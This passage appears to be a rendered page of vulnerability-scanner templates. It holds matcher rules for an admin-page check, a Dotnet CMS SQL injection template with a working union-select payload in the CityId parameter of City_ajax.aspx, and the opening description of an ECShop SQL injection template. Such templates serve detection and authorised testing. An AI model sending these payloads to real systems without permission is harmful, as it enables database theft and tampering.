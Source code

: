 ```
```
### Matchers

**Type - word**
- part - body
- words
    1. window.start_load
    2. Welcome back Admin
    3. Loan Management System
- condition - and

**Type - word**
- part - body
- words
    1. login-form
- negative - True

---
# Dotnet CMS -  SQL Injection
## Description
- Dotnet CMS contains a SQL injection vulnerability. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.
- severity - critical
- tags - dotnetcms,dotnet,sqli
## Requests
- Method - GET
### URL
- {{BaseURL}}/user/City_ajax.aspx?CityId=33'union%20select%20sys.fn_sqlvarbasetostr(HashBytes('MD5','{{randstr}}')),2--
### Matchers

**Type - word**
- part - body
- words
    1. {{md5("{{randstr}}")}}

**Type - status**
- status
    1. 200

---
# ECShop 2.x/3.x - SQL Injection
## Description
- ECShop 2.x and 3.x contains a SQL injection vulnerability which can allow an attacker to inject arbitrary SQL statements via the referer header field and the dangerous eval function, thus possibly allowing an attacker to obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.
